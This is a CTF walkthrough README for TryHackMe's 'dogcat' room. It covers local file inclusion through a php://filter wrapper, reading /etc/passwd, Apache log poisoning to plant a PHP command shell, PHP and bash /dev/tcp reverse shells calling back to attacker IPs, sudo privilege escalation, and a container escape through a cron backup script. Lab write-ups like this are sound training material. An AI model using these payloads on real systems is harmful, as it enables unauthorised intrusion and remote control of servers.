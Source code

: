 # dogcat CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **dogcat** CTF challenge on [TryHackMe](https://tryhackme.com/room/dogcat). 
---

we see open ports 22 and 80

![scn](img/scn.png "scn")

here is a main site, we can pick between a dog and cat picture

![mp](img/mp.png "mp")

if we take a look a the source code we see that picture location is: `dogs/9.jpg` we can try to access this picture directly via link `http://IP/dogs/9.jpg`

![sc](img/sc.png "sc")

![pc](img/pc.png "pc")

by trying to manipulate the parameter we see some first errors

![pw](img/pw.png "pw")

next if we try to change the parameter to dogs we see php errors

```
Warning: include(dogs.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 24

Warning: include(): Failed opening 'dogs.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24
```

![er1](img/er1.png "er1")

now if we try to include the index.php we see diffrent errors

![id](img/id.png "id")

```
Warning: include(dogsindex.php.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 24

Warning: include(): Failed opening 'dogsindex.php.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24
```

first we see that one .php was added to our path we tried to access

we can try with some php wrappers

we can try to use 

```
http://10.10.211.105/?view=php://filter/convert.base64-encode/resource=dogs/../index    # we use index without .php, it will be completed by server
```

![wr](img/wr.png "wr")

no we need to simply decode from base64

```index.php

        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
```

now from source code we know about `ext` parameter, now we can try to use LFI to access /etc/passwd by using parameters view and ext, `/?view=dogs/../../../../../etc/&ext=passwd` so the result will be `dogs/../../../../../etc/passwd`

![p](img/p.png "p")

from passwd file we dont see any user with home folder, so we probably wont find ssh key

we can try checking apache logs in /var/log/apache2/access.log

![lg](img/lg.png "lg")

it works we see our tries to access the server

now we can change User-Agent header and try log poissoning

![pois](img/pois.png "pois")

we see our changed User-Agent reflected in page source

now we can try to insert some php code 

```
<?php system($_GET['cmd']); ?>
```

then we add cmd parameter to our request and we see ls output, now we have RCE from LFI

![ls](img/ls.png "ls")

we can confirm by using id command

![idd](img/idd.png "idd")

now we need to use some php reverse shell, we can use this one but we need to url encode special characters 

```
php -r '$sock=fsockopen("10.X.X.X",8888);system("/bin/bash <&3 >&3 2>&3");'
```

![rs](img/rs.png "rs")

now we have shell access as www-data

![www](img/www.png "www")

we found first and second flag

![f1](img/f1.png "f1")

![f2](img/f2.png "f2")

looking at sudo -l and then checking GTFObins we have very easy way to become root

![sdl](img/sdl.png "sdl")

![gt](img/gt.png "gt")

```
sudo /usr/bin/env /bin/sh
```

now we have root access and we can grab third flag from root directory

![f3](img/f3.png "f3")

we might be inside container, we cant use python to upgrade shell and also we see .dockerenv

![op](img/op.png "op")

in /opt we see some script and tar file

![bc](img/bc.png "bc")

we can try to manipulate the script to escape the container 

```
$ cd /opt/backups
$ echo "#!/bin/bash" > backup.sh
$ echo "/bin/bash -c 'bash -i >& /dev/tcp/10.14.91.59/9999 0>&1'" >> backup.sh
```

![rss](img/rss.png "rss")

now we wait for a short while and we are hit by another reverse shell 

we can grab last flag

![f4](img/f4.png "f4")

# MACHINE PWNED
